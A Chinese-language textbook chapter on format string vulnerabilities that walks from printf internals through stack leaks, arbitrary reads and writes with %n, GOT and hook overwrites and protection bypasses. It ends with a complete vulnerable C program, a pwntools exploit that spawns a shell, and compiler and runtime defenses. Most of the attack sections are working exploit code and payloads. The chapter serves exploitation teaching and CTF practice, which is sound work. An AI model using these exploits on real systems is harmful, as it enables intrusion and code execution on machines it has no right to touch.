


## 16.7 格式化字符串漏洞

格式化字符串漏洞（Format String Vulnerability）是二进制利用中最经典的漏洞类型之一。它源于程序员将用户可控输入直接传递给 `printf` 系列函数作为格式化参数，使得攻击者能够读取任意栈内存、向任意地址写入数据，最终劫持程序控制流。该漏洞的利用不需要栈溢出，不需要控制 `eip/rip`，仅凭一个格式化字符串就能实现完整的漏洞利用链。



### 16.7.1 printf 函数内部机制

要理解格式化字符串漏洞，必须先理解 `printf` 的工作原理。`printf` 是一个变参函数（variadic function），其函数原型为：

```c
int printf(const char *format, ...);
```

`format` 字符串中的格式化说明符（如 `%d`、`%s`、`%x`）告诉 `printf` 如何解释后续的可变参数。在 x86-32 位系统中，参数通过栈传递；在 x86-64 系统中，前 6 个整型参数通过寄存器传递（`rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`），浮点参数通过 `xmm0`~`xmm7` 传递，多余的参数才通过栈传递。

**printf 的解析流程：**

`printf` 从左到右扫描格式化字符串，每遇到一个 `%` 开头的格式化说明符，就从参数列表中取出下一个参数并格式化输出。关键在于：`printf` 并不验证格式化说明符的数量是否与实际参数数量匹配。如果格式化说明符多于实际参数，`printf` 会继续从栈上"取"数据——这些数据可能是调用者的局部变量、保存的寄存器、返回地址等。

```c
// 正常调用
printf("Name: %s, Age: %d\n", name, age);
// printf 按顺序取第一个参数→name，第二个参数→age

// 漏洞调用
printf(user_input);
// 如果 user_input = "%x.%x.%x.%x"
// printf 从栈上连续取 4 个值输出
// 这些值可能是：局部变量、saved ebp、返回地址、其他栈数据
```

**栈布局视角：**

在 x86-32 系统中调用 `printf(buf)` 时，栈上的布局大致如下：

```text
高地址
+------------------+
| ...              |  ← printf 内部帧
+------------------+
| format (buf地址) |  ← printf 的参数
+------------------+
| saved ebp        |  ← 调用者栈帧
+------------------+
| 返回地址          |
+------------------+
| 局部变量 1        |  ← %1$x (或 %x，第一个)
+------------------+
| 局部变量 2        |  ← %2$x
+------------------+
| ...              |
低地址
```

当用户输入 `AAAA%x.%x.%x.%x` 时，`printf` 将 `AAAA` 原样输出，然后连续从栈上取 4 个值以十六进制格式输出，得到类似：

```text
AAAAffffdd40.0.ffffdd50.41414141
```

其中 `41414141` 就是我们输入的 `AAAA`（ASCII 码 `0x41`）出现在输出中，说明格式化字符串本身也位于栈上的某个参数位置。这个偏移量（offset）是后续所有利用的基础。

**格式化说明符参考：**

| 说明符 | 功能 | 利用意义 |
|--------|------|----------|
| `%d` | 输出有符号十进制整数 | 读取栈上整数值 |
| `%u` | 输出无符号十进制整数 | 读取栈上整数值 |
| `%x` | 输出无符号十六进制（小写） | 最常用的栈泄露手段 |
| `%p` | 输出指针格式（带0x前缀） | 直观显示地址值 |
| `%s` | 输出字符串（按指针解引用） | 任意地址读取 |
| `%c` | 输出字符 | 配合 `%n` 控制写入字节数 |
| `%n` | 写入已输出字符数（4字节） | 任意地址写入 |
| `%hn` | 写入已输出字符数（2字节） | 精确写入低2字节 |
| `%hhn` | 写入已输出字符数（1字节） | 精确写入低1字节 |
| `%ln` / `%lln` | 写入 long / long long | 64位系统使用 |
| `%%` | 输出字面 `%` | 无直接利用意义 |

**变参机制的底层实现：**

在 x86-32 的 glibc 实现中，`printf` 内部使用一个内部的参数指针（通常保存在某个寄存器或栈变量中），每处理一个格式化说明符就推进这个指针。这意味着：

- 参数不是按名称获取的，而是按位置顺序
- 不存在"越界检查"——指针会一直往后推进
- 格式化字符串本身所在的栈位置也会被当作"参数"读取

这个机制是漏洞利用的根本原因：攻击者通过控制格式化字符串中的说明符数量，可以遍历整个栈空间。

### 16.7.2 格式化字符串漏洞识别

**常见漏洞模式：**

```c
// 模式1：直接将用户输入作为格式化字符串
char buf[100];
fgets(buf, sizeof(buf), stdin);
printf(buf);           // 漏洞！
// 正确写法：printf("%s", buf);

// 模式2：通过变量间接传递
char *msg = getenv("MSG");
if (msg) printf(msg);  // 漏洞！环境变量可控

// 模式3：sprintf/snprintf 同样受影响
char output[200];
snprintf(output, sizeof(output), user_input);  // 漏洞！

// 模式4：syslog 同样受影响
syslog(LOG_INFO, user_input);  // 漏洞！

// 模式5：fprintf 也受影响
fprintf(stderr, user_input);   // 漏洞！
```

**自动化检测方法：**

使用 `pwn.checksec` 或 `readelf` 检查二进制保护机制：

```bash
checksec ./vuln
# RELRO:    Partial RELRO   ← GOT可写，可覆写
# Stack:    No canary found  ← 无栈保护（格式化字符串不需要）
# NX:       NX enabled       ← 栈不可执行（不影响格式化字符串利用）
# PIE:      No PIE           ← 地址固定，更容易利用
```

**判断偏移量的方法：**

输入 `AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p` 或 `AAAA%6$x` 逐步测试，找到输出中出现 `0x41414141`（32位）或 `0x4141414141414141`（64位）的位置。

```python
# 自动化寻找偏移
from pwn import *

def find_offset(binary, input_fmt="AAAA"):
    for i in range(1, 100):
        p = process(binary)
        payload = input_fmt + "%" + str(i) + "$x"
        p.sendline(payload)
        result = p.recvall().strip()
        p.close()
        if "41414141" in result or "4141414141414141" in result:
            return i
    return -1

offset = find_offset("./vuln")
print(f"格式化字符串偏移量: {offset}")
```

也可以使用 `fmtstr_payload` 工具配合手动确认：

```bash
# 方法1：直接输入测试字符串
echo 'AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p' | ./vuln

# 方法2：使用 pwntools 的 FmtStr 自动检测
python3 -c "
from pwn import *
context.binary = ELF('./vuln')
p = process('./vuln')
p.sendline(b'AAAA' + b'.%11\$x')  # 逐个测试
print(p.recvline())
"
```

### 16.7.3 任意地址读取

**通过 `%s` 读取指定地址的内容：**

`%s` 将栈上的值当作指针，解引用并输出指向的字符串。如果我们在格式化字符串中构造一个地址，然后用 `%Ns` 来引用该地址所在的栈位置，就能实现任意地址读取。

以 32 位程序为例，假设偏移量为 4：

```python
from pwn import *

p = process("./vuln")
target_addr = 0x0804a020  # 目标地址

# 构造 payload：4字节地址 + 填充到对齐 + %Ns
# 我们需要让 %s 指向 target_addr 所在的栈位置
# 偏移4意味着第4个参数是我们的输入起始位置
# 所以前4字节放地址，然后用 %4$s 让 printf 读取第4个参数作为指针
payload = p32(target_addr) + b"%4$s"

p.sendline(payload)
result = p.recv()
print(f"读取到的内容: {result}")
```

**64 位系统的特殊处理：**

在 64 位系统中，地址通常包含空字节（`\x00`，因为地址高位为 0），而 `printf` 遇到空字节会停止解析。因此需要将地址放在格式化字符串的末尾：

```python
from pwn import *

p = process("./vuln_64")
target_addr = 0x404020  # 目标地址（不含高位空字节的合理地址）

# 64位：地址放末尾，用 %N$s 引用
# 先用 padding 填充到对齐边界（8字节对齐）
payload = b"%7$s" + b"AAAA" + p64(target_addr)
# 注意：%7$s 的长度为4，加4字节AAAA = 8字节对齐
# 然后 p64(target_addr) 放在偏移7的位置

p.sendline(payload)
result = p.recv()
```

**读取 GOT 表获取 libc 地址：**

这是信息泄露中最常见的应用——通过读取 GOT 表中已解析的函数地址来确定 libc 基址：

```python
from pwn import *

elf = ELF("./vuln")
libc = ELF("./libc.so.6")
p = process("./vuln")

# 读取 printf@GOT 的实际地址
printf_got = elf.got["printf"]
payload = p32(printf_got) + b"%4$s"  # 32位示例
p.sendline(payload)
p.recv(4)  # 跳过前4字节（我们输入的地址）
printf_addr = u32(p.recv(4))
print(f"printf 实际地址: {hex(printf_addr)}")

# 计算 libc 基址
libc_base = printf_addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols["system"]
print(f"system 地址: {hex(system_addr)}")
```

### 16.7.4 任意地址写入

这是格式化字符串漏洞最强大的能力。通过 `%n` 系列说明符，可以向任意地址写入精心构造的值。

**`%n` 写入原理：**

`%n` 不输出任何内容，而是将**到目前为止已输出的字符数**写入到对应的参数所指向的地址。例如：

```c
printf("AAAA%n", &count);
// 执行后 count = 4（已输出4个'A'）

printf("AAAAAAAAAAAAAAAA%n", &count);
// 执行后 count = 16
```

在利用中，我们把目标地址放在格式化字符串中，然后通过 `%n` 将一个值写入该地址。

**写入指定值的技巧：**

要写入的目标值（如 `0x08048500`）通常很大（134513920 个字符），直接输出这么多字符不现实。解决方案是：

1. **使用 `%hn`（写入2字节）或 `%hhn`（写入1字节）**：将目标值拆分为多个小部分，分别写入
2. **利用溢出特性**：`%hn` 只取已输出字符数的低16位，`%hhn` 只取低8位

例如，要向地址 `0x0804a010` 写入值 `0x08048500`：

```python
# 手工拆分
# 目标值: 0x08048500
# 低2字节: 0x8500 = 34048
# 高2字节: 0x0804 = 2052

# 使用 %hn 分两次写入（注意写入顺序优化，从小值开始）
# 写入 0x0804 到 0x0804a012（高2字节地址）
# 写入 0x8500 到 0x0804a010（低2字节地址）
```

**手工构造 payload（32位，偏移量=4）：**

```python
from pwn import *

context.arch = "i386"

target = 0x0804a010
value = 0x08048500

# 地址布局（放在格式化字符串开头）
# addr_low  = 0x0804a010  → 写入 0x8500
# addr_high = 0x0804a012  → 写入 0x0804

# 写入顺序：先写小值 2052(0x0804)，再写大值 34048(0x8500)
# 已输出 8 字节（两个地址）
# 第一个 %c 输出若干字符凑到 2052
# 2052 - 8 = 2044 个字符
# 第二个 %c 输出若干字符凑到 34048
# 34048 - 2052 = 31996 个字符

addr_low  = p32(target)
addr_high = p32(target + 2)

payload  = addr_low + addr_high           # 8 bytes
payload += "%2044c" + "%4$hn"             # 输出2044个字符，写入 addr_low  → 0x0804a010 = 2052
# 但这里有个问题：写入顺序不对，我们要先写小值
# 更正：实际上我们需要先写小值（2052）到 addr_high（0x0804a012）
# 再写大值（34048）到 addr_low（0x0804a010）

# 重新布局：先放需要写入较小值的地址
addr_high = p32(target + 2)               # 先写 0x0804（较小）
addr_low  = p32(target)                   # 后写 0x8500（较大）

payload  = addr_high + addr_low           # 8 bytes
payload += "%2044c".encode()              # 2044 + 8 = 2052
payload += b"%4$hn"                       # 写入 2052 到 target+2
payload += "%31996c".encode()             # 31996 + 2052 = 34048
payload += b"%5$hn"                       # 写入 34048 到 target
```

**使用 pwntools 自动生成（推荐）：**

```python
from pwn import *

context.arch = "i386"
context.log_level = "info"

target = 0x0804a010
value = 0x08048500
offset = 4  # 格式化字符串在参数中的偏移

# pwntools 自动处理拆分、排序和对齐
payload = fmtstr_payload(offset, {target: value})
print(f"Payload 长度: {len(payload)}")
print(f"Payload: {payload}")

p = process("./vuln")
p.sendline(payload)
```

**`fmtstr_payload` 的参数详解：**

```python
fmtstr_payload(
    offset,          # 格式化字符串在 printf 参数中的位置
    writes,          # 字典：{地址: 值, ...}
    numbwritten=0,   # 已输出的字符数（通常为0）
    write_size='byte',  # 写入粒度：'byte'（%hhn）/'short'（%hn）/'int'（%n）
    overflows=16,    # 允许溢出的位数（从小到大排列可减少总输出字符数）
    strategy='fast'  # 策略：'fast'（按地址排序）/'smaller'（按值排序）
)
```

**不同 `write_size` 的对比：**

| write_size | 说明符 | 每次写入 | 需要次数 | payload 大小 | 适用场景 |
|-----------|--------|---------|---------|-------------|---------|
| `'byte'` | `%hhn` | 1字节 | 4次（32位） | 较大 | 精确控制，通用 |
| `'short'` | `%hn` | 2字节 | 2次（32位） | 较小 | 常用推荐 |
| `'int'` | `%n` | 4字节 | 1次（32位） | 可能很大 | 仅当值较小时使用 |

### 16.7.5 GOT 表覆写攻击

GOT（Global Offset Table）覆写是格式化字符串利用中最经典的攻击方式。通过将 GOT 表中的函数指针替换为 `system` 的地址，可以在程序下次调用该函数时获得 shell。

**攻击原理：**



**完整利用脚本（32位，Partial RELRO）：**

```python
from pwn import *

context.arch = "i386"
context.log_level = "info"

elf = ELF("./vuln")
libc = ELF("./libc.so.6")

def exec_fmt(payload):
    """与漏洞程序交互的函数，用于自动计算偏移"""
    p = process("./vuln")
    p.sendline(payload)
    return p.recvall()

# ===== 第一步：自动计算偏移量 =====
fmt = FmtStr(exec_fmt)
offset = fmt.offset
print(f"[*] 格式化字符串偏移量: {offset}")

# ===== 第二步：泄露 libc 地址 =====
p = process("./vuln")

# 读取 puts@GOT（已解析的地址就是 libc 中的实际地址）
puts_got = elf.got["puts"]
payload = p32(puts_got) + f"%{offset}$s".encode()
p.sendline(payload)
p.recv(4)  # 跳过前4字节（GOT地址本身）
puts_addr = u32(p.recv(4))
print(f"[*] puts@libc = {hex(puts_addr)}")

# 计算 libc 基址
libc_base = puts_addr - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))
print(f"[*] libc 基址: {hex(libc_base)}")
print(f"[*] system@libc = {hex(system_addr)}")
print(f"[*] /bin/sh = {hex(bin_sh_addr)}")

# ===== 第三步：覆写 printf@GOT 为 system =====
printf_got = elf.got["printf"]
payload = fmtstr_payload(offset, {printf_got: system_addr})
p.sendline(payload)
p.recv()

# ===== 第四步：触发 printf("/bin/sh") → system("/bin/sh") =====
p.sendline(p32(bin_sh_addr))
p.interactive()
```

**两次交互合并为一次的技巧：**

很多 CTF 题目和实际场景中，漏洞只能触发一次。此时需要在同一个 payload 中同时完成信息泄露和 GOT 覆写：

```python
# 方法：利用 %s 泄露 + %n 写入组合
# 但这通常很复杂，更常见的是：
# 1. 使用局部覆写（partial overwrite）只覆写地址的低2字节
# 2. 利用程序已有信息（如固定地址、已知偏移）

# 如果 PIE 关闭且 libc 版本已知，可以跳过泄露步骤
# 直接计算 system 地址并覆写
```

### 16.7.6 64 位系统格式化字符串利用

64 位系统上的利用有几个关键差异需要注意。

**地址中的空字节问题：**

64 位地址通常形如 `0x000000000040xxxx` 或 `0x00007fxxxxxxxxxx`，高位字节为 `\x00`。而 `printf` 遇到 `\x00` 会停止解析字符串，因此不能将地址放在格式化字符串的开头。

**解决方案：**

```python
from pwn import *

context.arch = "amd64"

# 方案1：地址放末尾（最常用）
# %offset$p.AAAAAAAA\xaddr
payload = b"%9$s.AAAAAAAA" + p64(target_addr)
# 注意对齐：%9$s 长度为4，需要加4字节 padding 到8字节对齐
# 然后 target_addr 在偏移9的位置

# 方案2：使用相对偏移
# 如果格式化字符串在栈上的位置固定，可以用 %Nc%offset$hhn 精确控制

# 方案3：分段写入
# 将写入操作放在格式化字符串的前面，地址放在后面
# 这样地址中的空字节不会影响格式化说明符的解析
```

**64位 GOT 覆写示例：**

```python
from pwn import *

context.arch = "amd64"

elf = ELF("./vuln_64")
libc = ELF("./libc.so.6")

p = process("./vuln_64")

# 64位：地址可能包含很多零字节
# 使用 write_size='short' 减少输出量
printf_got = elf.got["printf"]
system_addr = 0x7f1234567890  # 假设已知（或通过泄露计算）

# fmtstr_payload 会自动处理64位的地址对齐问题
# 但需要注意偏移量可能因地址中的零字节而改变
# 建议使用 FmtStr 类自动计算

def exec_fmt(payload):
    p = process("./vuln_64")
    p.sendline(payload)
    return p.recvall()

fmt = FmtStr(exec_fmt)
offset = fmt.offset

# 对于64位，write_size='byte' 更可靠（避免大值输出问题）
payload = fmtstr_payload(offset, {printf_got: system_addr}, write_size='byte')
p.sendline(payload)
```

**64 位偏移量验证：**

```python
# 64位系统中，前6个整型参数通过寄存器传递
# 我们输入的内容通常从第 6 或第 7 个位置开始
# 具体取决于函数调用栈深度

# 验证方法
p = process("./vuln_64")
# 用 %p 逐个探测
for i in range(1, 20):
    p2 = process("./vuln_64")
    p2.sendline(f"AAAABBBB%{i}$p".encode())
    result = p2.recvall().decode(errors='ignore')
    if "42424241" in result or "41414141" in result or "4242424241414141" in result:
        print(f"偏移量 = {i}")
        break
    p2.close()
```

### 16.7.7 格式化字符串的高级技巧

**利用 `%*d` 从栈上取值：**

`%*d` 中的 `*` 表示宽度从参数列表中获取，这可以用来读取栈上的值并将其用作输出宽度：

```c
printf("%*d", 100, 42);
// 等价于 printf("%100d", 42)
// 输出100个字符宽度的42
```

在利用中，这可以配合 `%n` 实现更灵活的写入控制。

**利用返回值：**

`printf` 返回输出的字符总数。在某些场景中，程序可能将 `printf` 的返回值用作后续逻辑的判断条件，攻击者可以通过精心控制输出字符数来影响程序行为。

**格式化字符串与 ROP 的结合：**

当 GOT 覆写受限时（如 Full RELRO），可以考虑：

1. **覆写 `__malloc_hook` 或 `__free_hook`**：如果能触发 `malloc` 或 `free`
2. **覆写 `__exit_funcs`**：在程序退出时触发
3. **覆写栈上的返回地址**：配合栈上的数据进行 ROP
4. **覆写 `.fini_array`**：程序退出时调用

```python
# 覆写 __malloc_hook 示例
from pwn import *

libc = ELF("./libc.so.6")

# __malloc_hook 在 libc 中的偏移
malloc_hook_addr = libc.symbols["__malloc_hook"]

# 获取 one_gadget
# $ one_gadget ./libc.so.6
# 0x45216 execve("/bin/sh", rsp+0x30, environ)
# 0x4526a execve("/bin/sh", rsp+0x30, environ)
# 0xf02a4 execve("/bin/sh", rsp+0x30, environ)
one_gadget = libc_base + 0x45216

# 覆写 __malloc_hook
payload = fmtstr_payload(offset, {malloc_hook_addr: one_gadget})
p.sendline(payload)

# 触发 malloc（例如通过输出大量数据或程序逻辑）
p.sendline("%100000c")  # 触发 malloc 分配缓冲区
```

**盲打格式化字符串（Blind Format String）：**

当无法直接观察程序输出时（如远程服务、日志注入），可以使用 `%n` 的写入来推断信息：

```python
# 盲打场景：通过改变程序行为来判断偏移量
# 例如覆写 exit@GOT 为某个地址，观察程序是否崩溃

# 基本思路：
# 1. 尝试覆写 GOT 中的某个函数
# 2. 触发该函数
# 3. 如果程序行为改变（崩溃或正常），说明偏移量正确
```

**多次利用同一个漏洞的注意事项：**

```python
# 如果程序循环接受输入，可以分多次利用
# 但需要注意：
# 1. 每次 printf 调用后栈状态可能改变
# 2. 已覆写的 GOT 条目会影响后续调用
# 3. 建议先泄露再写入，顺序不能反

# 最佳实践：
while True:
    action = input("[L]eak / [W]rite / [S]hell: ")
    if action == 'L':
        # 泄露信息
        payload = p32(target_got) + "%4$s"
        p.sendline(payload)
    elif action == 'W':
        # 写入地址
        payload = fmtstr_payload(4, {target: value})
        p.sendline(payload)
    elif action == 'S':
        # 触发 shell
        p.sendline(b"/bin/sh\x00")
        p.interactive()
```

### 16.7.8 格式化字符串与保护机制

**RELRO（Relocation Read-Only）保护：**

| RELRO 级别 | GOT 可写？ | 对利用的影响 |
|-----------|----------|------------|
| No RELRO | 完全可写 | 最容易利用 |
| Partial RELRO | 可写 | GOT 覆写可用（最常见） |
| Full RELRO | 不可写 | GOT 覆写不可用，需找其他目标 |

Full RELRO 下的替代目标：

```python
# Full RELRO 时 GOT 不可写，但以下位置仍可能可写：

# 1. __malloc_hook / __free_hook / __realloc_hook
#    这些在 libc 的 .bss 段，通常可写
malloc_hook = libc.symbols["__malloc_hook"]

# 2. __exit_funcs
#    程序退出时调用的函数表
exit_funcs = libc.symbols["__exit_funcs"]

# 3. .fini_array
#    程序终止时调用的函数数组
#    地址可通过 readelf -S ./vuln 查看
fini_array = 0x08049f14  # 示例地址

# 4. vtable 指针（C++ 程序）
#    覆写虚函数表指针

# 5. _IO_vtable（高级技术）
#    利用 glibc IO 结构体的 vtable 检查绕过
```

**Stack Canary 与格式化字符串：**

格式化字符串漏洞本身不需要溢出栈，因此栈保护（canary）对它没有直接影响。但如果你需要读取 canary 值以配合其他利用：

```python
# 通过格式化字符串泄露 canary
# canary 通常在 saved ebp 附近
# 使用 %p 逐个探测
for i in range(20, 35):
    payload = f"%{i}$p".encode()
    p.sendline(payload)
    val = int(p.recv().strip(), 16)
    if val & 0xff == 0x00:  # canary 最低字节为 0x00
        print(f"可能的 canary @ offset {i}: {hex(val)}")
```

**PIE 保护：**

PIE（Position Independent Executable）使得程序基址随机化。但格式化字符串的信息泄露能力可以绕过它：

```python
# 泄露程序基址
# 方法1：泄露栈上的返回地址（指向 .text 段）
# 方法2：泄露 GOT 表中的函数地址（间接得到 .text 段的某个地址）

# 泄露 GOT 中的 __libc_start_main 地址
start_main_got = elf.got["__libc_start_main"]
payload = p32(start_main_got) + "%4$s"
p.sendline(payload)
p.recv(4)
start_main_addr = u32(p.recv(4))

# 泄露返回地址获取程序基址
# %offset$p 读取栈上某个保存的返回地址
# 返回地址 - 已知偏移 = 程序基址
```

### 16.7.9 常见错误与调试技巧

**常见错误：**

| 错误现象 | 原因 | 解决方法 |
|---------|------|---------|
| 输出乱码，目标值不正确 | 偏移量算错 | 重新用 `AAAA%N$x` 测试偏移 |
| payload 中的地址被截断 | 64 位地址含 `\x00` | 将地址放在格式化字符串末尾 |
| 写入的值差 1 或差几字节 | `%hn` 写入时溢出影响 | 调整写入顺序，先写小值 |
| 程序直接崩溃 | 写入了非法地址 | 确认目标地址可写且有效 |
| 输出量过大导致超时 | `%Nd` 的 N 太大 | 使用 `write_size='byte'` 分多次写入 |
| 段错误（Segmentation fault） | `%s` 读取的地址无效 | 用 `%p` 先检查目标地址的值 |

**调试方法：**

```python
# GDB 配合调试
p = process("./vuln")
gdb.attach(p, '''
    # 在 printf 处设断点
    b printf
    # 查看栈内容
    x/20gx $esp  # 32位
    x/20gx $rsp  # 64位
    # 单步执行
    si
    continue
''')

# pwntools 日志级别
context.log_level = "debug"  # 显示所有收发数据

# 验证 payload 正确性
payload = fmtstr_payload(offset, {target: value})
print(f"Payload hex: {payload.hex()}")
print(f"Payload: {payload}")
# 检查是否有意外的空字节、换行符等
```

**避免格式化字符串中的特殊字符：**

```python
# 某些程序使用 scanf("%s", buf) 读取输入
# scanf 会截断空格、换行等空白字符
# 因此 payload 中不能包含 \x00, \x0a(\n), \x20(空格), \x09(\t) 等

# 检查 payload 中是否有问题字符
def check_payload(payload):
    bad_chars = {0x00, 0x0a, 0x09, 0x0b, 0x0c, 0x0d, 0x20}
    for i, b in enumerate(payload):
        if b in bad_chars:
            print(f"[!] 偏移 {i}: 0x{b:02x} 是坏字符")
    return payload

# 如果存在坏字符，需要调整策略：
# 1. 使用 %hhn 代替 %hn（更灵活但 payload 更长）
# 2. 调整写入顺序避免产生坏字符
# 3. 使用 %c 而非 %Nd 来控制输出宽度
```

### 16.7.10 实战案例：完整的 CTF 格式化字符串挑战

以下是一个完整的、可编译运行的漏洞程序及对应的利用脚本。

**漏洞程序源码：**

```c
// vuln.c
// 编译：gcc -m32 -o vuln vuln.c -no-pie -fno-stack-protector
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char name[64];

void vuln() {
    char buf[100];
    printf("Enter your name: ");
    fgets(name, sizeof(name), stdin);
    printf("Hello, ");
    printf(name);  // 格式化字符串漏洞！
    printf("\n");

    printf("Enter message: ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);  // 格式化字符串漏洞！
    printf("\n");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    vuln();
    return 0;
}
```

**完整利用脚本：**

```python
#!/usr/bin/env python3
# exploit.py
from pwn import *

context.arch = "i386"
context.log_level = "info"

elf = ELF("./vuln")
libc = ELF("/lib32/libc.so.6")  # 根据实际环境调整

p = process("./vuln")

# ===== 阶段1：确定偏移量 =====
# 输入 name 时的测试
p.recvuntil(b"name: ")
p.sendline(b"AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
result = p.recvline().decode()
print(f"[*] 泄露测试: {result}")
# 假设找到偏移为 4（name 数组在栈上的位置）

# ===== 阶段2：泄露 libc 地址 =====
# 利用 name 中的格式化字符串泄露 printf@GOT
offset = 4  # 根据实际测试结果调整
printf_got = elf.got["printf"]

p.recvuntil(b"name: ")
# 构造：GOT地址 + %offset$s
payload = p32(printf_got) + f"%{offset}$s".encode()
p.sendline(payload)

# 接收输出
p.recvuntil(b"Hello, ")
p.recv(4)  # 跳过地址字节
printf_addr = u32(p.recv(4))
print(f"[*] printf@libc = {hex(printf_addr)}")

# 计算 libc 基址
libc_base = printf_addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols["system"]
print(f"[*] libc 基址 = {hex(libc_base)}")
print(f"[*] system@libc = {hex(system_addr)}")

# ===== 阶段3：覆写 printf@GOT =====
p.recvuntil(b"message: ")
payload = fmtstr_payload(offset, {printf_got: system_addr})
p.sendline(payload)
p.recvline()

# ===== 阶段4：获取 shell =====
# 下次调用 printf("/bin/sh") 时实际执行 system("/bin/sh")
p.recvuntil(b"name: ")
p.sendline(b"/bin/sh\x00")

# 此时 printf(name) → system("/bin/sh")
p.interactive()
```

**编译和运行：**

```bash
# 编译漏洞程序（关闭保护）
gcc -m32 -o vuln vuln.c -no-pie -fno-stack-protector

# 检查保护
checksec ./vuln
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

# 运行利用脚本
python3 exploit.py
# [*] printf@libc = 0xf7d12340
# [*] libc 基址 = 0xf7c8f000
# [*] system@libc = 0xf7cc4420
# $ id
# uid=1000(user) gid=1000(user) groups=1000(user)
```

### 16.7.11 防御与缓解

**开发层面：**

```c
// 错误做法
printf(user_input);

// 正确做法
printf("%s", user_input);
// 或
puts(user_input);

// snprintf 同样需要规范
snprintf(buf, sizeof(buf), "%s", user_input);  // 安全
snprintf(buf, sizeof(buf), user_input);          // 危险！
```

**编译器保护：**

```bash
# GCC 格式化字符串检查
gcc -Wformat -Wformat-security -o vuln vuln.c
# -Wformat：检查格式化字符串参数
# -Wformat-security：将格式化字符串警告升级为错误（推荐）

# 更严格
gcc -Wformat=2 -o vuln vuln.c
# -Wformat=2 包含 -Wformat -Wformat-nonliteral -Wformat-security -Wformat-y2k

# 使用 __attribute__((format)) 标注自定义格式化函数
void my_printf(const char *fmt, ...) __attribute__((format(printf, 1, 2)));
```

**运行时保护：**

```bash
# Full RELRO 防止 GOT 覆写
gcc -Wl,-z,relro,-z,now -o vuln vuln.c

# FORTIFY_SOURCE 提供额外的格式化字符串检查
gcc -D_FORTIFY_SOURCE=2 -O2 -o vuln vuln.c
